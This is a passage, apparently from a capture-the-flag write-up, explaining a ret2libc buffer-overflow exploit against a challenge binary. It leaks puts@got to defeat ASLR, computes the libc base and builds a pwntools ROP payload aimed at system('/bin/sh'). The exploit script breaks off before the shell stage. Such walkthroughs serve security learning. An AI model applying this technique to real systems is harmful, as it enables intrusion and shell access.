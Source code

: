 ```console
    PIE:      PIE enabled

[*] Searching for Overflow Offset..

[+] Buffer Overflow Offset found at: 72
b' \xa0j\xd7\x06R\x7f\n'
```

We see that the address is different each time. This happends due to `ASLR`. After we read this address, we need to convert it to int in order to do calculations. 

```python
leak = r.recvline_contains(b"\x7f").strip()
leak = u64(leak.ljust(8, b"\x00"))
print(colored("[+] Leaked address    @ 0x{:x}".format(leak), "green"))
libc.address = leak - libc.sym.puts
print(colored("[+] Libc base address @ 0x{:x}".format(libc.address), "green"))
```

We need to make sure that the `libc base` ends with "000", otherwise our calculations are off.

```python
# Check if libc base is correct, should end with 000
if libc.address & 0xfff != 000:
  print(colored("[-] Libc base does not end with 000!", "red"))
  exit()
```

After we calculate `libc base`, we can call `system("/bin/sh")` to spawn shell after we trigger `bof` again. We are going to call `system("/bin/sh")` the same way we did with `puts(puts@got)`.

### Exploit 📜

```python
#!/usr/bin/python3.8
import warnings
from pwn import *
from termcolor import colored
warnings.filterwarnings("ignore")
context.arch = "amd64"

fname = "./challenge6" 

e     = ELF(fname)
rop   = ROP(e)
libc  = ELF("./libc.so.6") 

LOCAL = False

prompt = ">"

def ret2libc(r, prompt, offset):
  # Craft payload to leak puts@got and return to main()
  # puts(puts@got)
  pop_rdi  = rop.find_gadget(["pop rdi"])[0]
  payload  = b"A"*offset
  payload += p64(pop_rdi)
  payload += p64(e.got.puts)
  payload += p64(pop_rdi+1) # ret gadget for alignment
  payload += p64(e.plt.puts)
  payload += p64(e.sym.main)
  r.sendlineafter(prompt, payload)

  # Leak puts@got address
  leak = r.recvline_contains(b"\x7f").strip()
  leak = u64(leak.ljust(8, b"\x00"))
```
